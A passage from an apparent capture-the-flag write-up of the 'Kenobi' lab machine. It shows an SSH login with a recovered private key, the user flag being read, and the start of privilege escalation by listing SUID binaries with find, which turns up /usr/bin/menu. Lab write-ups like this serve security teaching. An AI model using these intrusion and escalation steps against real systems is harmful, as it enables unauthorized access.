We can now have all the ingredients we need to SSH into Kenobi’s account. We first modify the permissions of ```id_rsa``` to read-only using ```chmod 600 tmp/id_rsa```, then SSH in.

##### Command:
>ssh kenobi@[target] -i tmp/id_rsa

```
─$ ssh kenobi@[target] -i tmp/id_rsa    
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.8.0-58-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

103 packages can be updated.
65 updates are security updates.


Last login: Wed Sep  4 07:10:15 2019 from 192.168.1.147
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

kenobi@kenobi:~$
```

We are now in ```kenobi```’s account!

```
kenobi@kenobi:~$ ls
share  user.txt
kenobi@kenobi:~$ cat user.txt
d0b0f3f53b6caa532a83915e19224899
```

We have now found the first flag, in ```user.txt```

### Privilege Escalation

We now want to elevate our privileges and gain root access. One method of privilege escalation is through files with their SUID or SGID bits set. SUID or SGID files are executed as the file or group owner, respectively. For some binaries, such as ```passwd```, any user needs to be able to run it to change their own password. However, misconfigured SUID or SGID files can lead to all sorts of privilege escalation related issues.

Let’s search for any SUID files we can exploit. We can use the ```find``` command in Linux. We search the entire root directory ```\```, for anything with SUID permissions set ```-perm -u=s```, that are files ```-type f```. We also send any blocked searches and errors to ```/dev/null``` so that they don't appear on screen.

##### Command:
>find / -perm -u=s -type f 2>/dev/null

This gave a list of fairly normal looking binaries, except for ```/usr/bin/menu```.

When ```menu``` is run, we are (unsurprisngly) met with a menu.

